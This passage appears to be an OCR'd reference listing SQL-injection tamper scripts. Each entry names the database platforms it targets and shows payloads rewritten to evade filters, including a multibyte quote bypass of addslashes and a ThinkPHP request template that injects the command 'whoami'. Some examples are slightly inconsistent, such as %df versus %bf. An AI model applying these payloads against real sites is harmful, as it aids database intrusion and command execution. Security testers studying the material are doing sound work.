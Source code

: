 ~~~
SELECT id FROM users ==> SELECT%0Bid%0DFROM%0Cusers
~~~
### space2mysqldash.py
Function: Space==> –%0A
Platform: Mssql、Mysql
example
~~~
1 AND 9227=9227 ==> 1 — %0AAND — %0A9227=9227
~~~
### space2plus.py
Function: Space ==> +
Platform: All
example
~~~
SELECT id FROM users ==> SELECT+id+FROM+users
~~~
### space2randomblank.py
Function: Space ==> %0D, %0A, %0C, %09
~~~
Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
~~~
example
~~~
SELECT id FROM users ==> SELECT%0Did%0DFROM%0Ausers
~~~
### symboliclogical.py
Function: and ==> %26%26
Platform: All
example
~~~
1 AND ‘1’=’1 ==> 1 %26%26 ‘1’=’1
~~~
### thinkphp.py
Platform: Mysql
example
~~~
'/index/Index/index/?huha[]={}&code={}'.format('whoami',code)
~~~
### unionalltounion.py
Function: Replace All is empty
Platform: All
example
~~~
-1 UNION ALL SELECT ==> -1 UNION SELECT
~~~
### unmagicquotes.py
Function: ‘ ==> %df%27
Platform: Mysql magic_quotes/addslashes
example
~~~
1' AND 1=1 ==> 1%bf%27 —
~~~
### uppercase.py
Function: Lower case to upper case
Platform: Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
example
~~~
insert ==> INSERT
~~~
### varnish.py